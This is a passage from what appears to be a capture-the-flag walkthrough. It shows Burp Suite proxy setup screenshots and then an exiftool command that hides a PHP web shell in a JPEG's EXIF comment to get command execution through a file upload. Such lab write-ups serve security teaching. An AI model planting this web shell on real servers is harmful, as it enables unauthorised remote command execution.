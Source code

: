 ![](/assets/images/jerome/screenshot-6.png)

In burpsuite, select **Proxy->Options**, and configure it as follows.

![](/assets/images/jerome/screenshot-7.png)

So far everything is ready to start the exploitation process.

A webshell was added as exif comment to the image.

```console
root@kali:~# exiftool -comment="<?php system(\$_GET['cmd']); ?>" rem.jpg
 1 image files updated
```
